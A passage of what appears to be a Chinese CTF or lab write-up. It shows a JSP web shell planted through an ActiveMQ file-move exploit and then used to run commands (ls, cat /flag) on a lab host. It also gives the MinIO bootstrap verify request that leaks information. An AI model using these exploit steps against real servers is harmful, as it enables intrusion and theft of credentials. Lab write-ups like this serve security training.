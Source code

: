 这里的 destination 是我们刚刚的获取的路径 然后加上 后面的路径实现移动

这里我的回显是

```cobol
HTTP/1.1 204 No Content
Connection: close
Server: Jetty(8.1.16.v20140903)
 
```

然后去到 /api/s.jsp下

执行命令

```cobol
http://192.168.31.131:8161/api/s.jsp?cmd=ls
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/d5a613e861229894bd472c8c10d14e0a.png" alt="" style="max-height:308px; box-sizing:content-box;" />


一样 cat /flag

### ubuntu内网- web4 minio

9001端口

为minio 我们去查看一下有什么漏洞

发现存在信息泄露

然后这里的请求包

注意这里的内容 需要修改为 9000 （原本的minio是 9001）



<img src="https://i-blog.csdnimg.cn/blog_migrate/25617ff4fca6dee431a25fae19f31c47.png" alt="" style="max-height:573px; box-sizing:content-box;" />


```cobol
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: 192.168.31.131:9000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Tue, 28 Nov 2023 13:43:22 GMT
 
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/bf3e54d022aa65ce8e4ea697263bbac7.png" alt="" style="max-height:281px; box-sizing:content-box;" />

